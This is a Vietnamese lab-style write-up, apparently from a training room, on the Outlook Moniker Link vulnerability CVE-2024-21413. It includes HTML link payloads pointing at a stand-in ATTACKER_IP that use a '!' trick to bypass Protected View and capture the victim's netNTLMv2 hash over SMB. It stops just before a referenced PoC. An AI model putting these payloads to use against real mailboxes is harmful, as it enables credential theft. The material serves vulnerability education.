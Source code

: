 # Liên kết Moniker (CVE-2024-21413)

Outlook có thể hiển thị email dưới dạng HTML. Bạn có thể nhận thấy điều này được sử dụng bởi các bản tin yêu thích của bạn. Ngoài ra, Outlook có thể phân tích cú pháp các siêu liên kết như HTTP và HTTPS. Tuy nhiên, nó cũng có thể mở các URL chỉ định các ứng dụng được gọi là Moniker Links .  Thông thường, Outlook sẽ nhắc nhở cảnh báo bảo mật khi các ứng dụng bên ngoài được kích hoạt.



Cửa sổ bật lên này là kết quả của tính năng "Protected View" của Outlook. Protect View sẽ mở các email chứa tệp đính kèm, siêu liên kết và nội dung tương tự ở chế độ chỉ đọc, chặn các nội dung như macro (đặc biệt là từ bên ngoài tổ chức).



Bằng cách sử dụng **file://** Moniker Link trong siêu liên kết, chúng ta có thể hướng dẫn Outlook thử truy cập một tệp, chẳng hạn như tệp trên chia sẻ mạng (**<a href="file://ATTACKER\\\\\\\_IP/test">Click me</a>**). Giao thức SMB được sử dụng, bao gồm việc sử dụng thông tin xác thực cục bộ để xác thực.  Tuy nhiên, chế độ "Protected View" của Outlook sẽ phát hiện và chặn nỗ lực này.

**<p><a href="file://ATTACKER\\\\\\\_MACHINE/test">Click me</a></p>**



Lỗ hổng ở đây tồn tại bằng cách sửa đổi siêu liên kết của chúng tôi để bao gồm !ký tự đặc biệt và một số văn bản trong Moniker Link, dẫn đến việc bỏ qua chế độ Protected View của Outlook. Ví dụ: **<a href="file://ATTACKER\\\\\\\_IP/test!exploit">Click me</a>**.

**<p><a href="file://ATTACKER\\\\\\\_MACHINE/test!exploit">Click me</a></p>**



Với tư cách là kẻ tấn công, chúng ta có thể cung cấp một Liên kết Moniker có tính chất này cho cuộc tấn công. Lưu ý rằng việc chia sẻ không nhất thiết phải tồn tại trên thiết bị từ xa, vì dù sao thì một nỗ lực xác thực vẫn sẽ được thực hiện, dẫn đến việc mã băm netNTLMv2 Windows của nạn nhân được gửi đến kẻ tấn công.



Thực thi Mã Từ xa ( RCE ) là khả thi vì Moniker Links sử dụng Mô hình Đối tượng Thành phần (COM) trên Windows. Tuy nhiên, việc giải thích điều này hiện nằm ngoài phạm vi của phòng này, vì không có bằng chứng khái niệm nào được công bố công khai về việc đạt được RCE thông qua CVE cụ thể này .



##### Khai thác :

Với cuộc tấn công này, chúng tôi sẽ gửi email cho nạn nhân một Liên kết Moniker tương tự như liên kết được cung cấp trong nhiệm vụ trước. Mục tiêu của kẻ tấn công là tạo một email gửi đến nạn nhân với Liên kết Moniker để vượt qua chế độ "Protected View" của Outlook, nơi máy khách của nạn nhân sẽ cố gắng tải một tệp từ máy tính tấn công của chúng tôi, dẫn đến việc mã băm netNTLMv2 của nạn nhân bị bắt.



Nhưng trước tiên, hãy cùng xem qua PoC mà tôi đã tạo (cũng có sẵn trên GitHub(**https://github.com/CMNatic/CVE-2024-21413**)).



PoC :​

